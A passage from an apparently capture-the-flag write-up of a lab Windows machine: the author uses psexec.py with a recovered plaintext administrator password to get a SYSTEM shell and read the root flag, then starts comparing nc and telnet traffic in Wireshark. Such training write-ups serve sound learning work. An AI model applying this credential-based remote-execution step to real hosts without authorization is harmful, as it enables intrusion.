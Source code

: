 With the administrator password, I can now PSExec to get a shell as
SYSTEM:



    root@kali# rlwrap psexec.py administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
    Impacket v0.9.22.dev1+20200422.223359.23bbfbe1 - Copyright 2020 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.178.....
    [*] Found writable share ADMIN$
    [*] Uploading file OYlCNyku.exe
    [*] Opening SVCManager on 10.10.10.178.....
    [*] Creating service zpAT on 10.10.10.178.....
    [*] Starting service zpAT.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system



And I can get the root flag:



    C:\Users\Administrator\Desktop>type root.txt
    6594c2eb************************



## Beyond Root

As far as I knew, both `telnet` and `nc` transmit only what is input,
with no protocol or any other wrapping around it. So why, when
[enumerating port 4386](#hqk---tcp-4386), did one work, and the other
not?

I opened up Wireshark, started a capture, and for each connected, typed
`help` at the first prompt, and hit Enter. On first look, they looked
exactly the same.

`nc`:

![](/img/image-20200605201227701.png)

`telnet`:

![](/img/image-20200605201245413.png)
